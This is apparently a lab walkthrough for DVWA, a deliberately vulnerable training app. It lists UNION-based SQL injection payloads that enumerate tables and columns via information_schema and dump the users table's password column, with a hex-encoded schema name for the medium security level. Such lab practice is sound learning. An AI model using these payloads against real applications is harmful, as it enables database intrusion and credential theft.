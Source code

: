 # SQL injection
<h3>low security level</h3>

- To find all tables, from a database called “dvwa”: 
`1' UNION SELECT table_name,null FROM information_schema.tables WHERE table_schema = 'dvwa'#`

 - To find all columns, from the database called “dvwa”: `1' UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema ='dvwa'#`

 - To find all column names of the table named “users”, from a database called “dvwa”: `1' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'dvwa'#`

 - To get the content of one column of the table named “users”, from a database called “dvwa”: `1' UNION SELECT password,null FROM dvwa.users#`
<h3>medium security level</h3>
 
 - To find all tables, from a database called “dvwa”: `1 union select null,table_name from information_schema.tables where table_schema = 0x64767761`
 - Note: `0x64767761` is DB name `dvwa` but decoded to hex u can use this website for decoding : https://cryptii.com/pipes/hex-decoder
